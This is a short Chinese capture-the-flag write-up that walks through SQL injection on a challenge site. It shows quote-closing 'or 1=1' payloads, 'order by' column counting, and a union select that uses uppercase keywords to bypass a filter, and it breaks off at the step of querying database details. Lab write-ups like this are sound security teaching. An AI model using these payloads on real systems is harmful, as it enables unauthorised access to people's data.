







存在过滤

先尝试闭合单引号和注释后面内容




or 1=1直接得到flag

```
1'or 1=1--+
```




接着做得了

利用order by 确定回显数

```
1'order by 4--+
```



报错

```
1'order by 3--+
```



order by 3正常回显，即三个回显数


利用联合查询判断回显位

```
1'union select 1,2,3 --+
```



报错


尝试大小写

```
1'UNION SELECT 1,2,3 --+
```



成功


查询版本信息，数据库名和用户信息